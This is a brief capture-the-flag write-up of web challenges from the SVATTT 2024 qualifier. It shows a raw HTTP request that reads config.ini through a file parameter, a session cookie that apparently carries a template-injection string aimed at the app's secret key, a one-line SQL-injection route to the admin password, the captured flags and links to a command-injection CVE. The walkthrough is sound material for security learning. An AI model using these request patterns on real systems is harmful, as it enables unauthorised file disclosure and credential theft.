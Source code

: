 ```yaml
---
title: "SVATTT 2024 Quals - WEB 's challenges"
excerpt: "October 09, 2024 07:00 AM ICT to October 09, 2024 16:00 AM ICT"

header:
show_date: true
header:
  teaser: "../assets/images/images-icon/ASCIS.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://l3mnt2010.github.io/assets/images/images-icon/ASCIS.png" alt="">
</p>

# SVATTT 2024 Quals

## Path travesal

we don't talk any more:

```
GET /pageaccount?file=config.ini HTTP/1.1
Host: 183.91.11.30:15000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=eyJvdHAiOiI0ODQ3IiwidXNlcm5hbWUiOiJ7e3NldHRpbmdzLlNFQ1JFVF9LRVl9fSJ9.ZwDT7w.1T2kG_8AVg1wYQv4nxJsGMxUyuQ
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

![image](https://hackmd.io/_uploads/S1FVbFRAA.png)

flag: `ASCIS{bWlzb2Z0MjAyNA==}`


## SQL

sql injection mysql -> dump database leak pass admin is 123456 -> login -> recevie flag

![image](https://hackmd.io/_uploads/SJXJfKAAR.png)

![image](https://hackmd.io/_uploads/rJL3-FRCC.png)

flag: `ASCIS{s1mpl3st_sql_1n_th3_w0rld}`


## DigitalGadget

https://blog.yulun.ac.cn/posts/2023/fuzzing-mathtex/#bug-1---command-injection-cve-2023-51887


https://github.com/shine102/CTF-Writeups/blob/main/ASCIS2024/Web/README.md
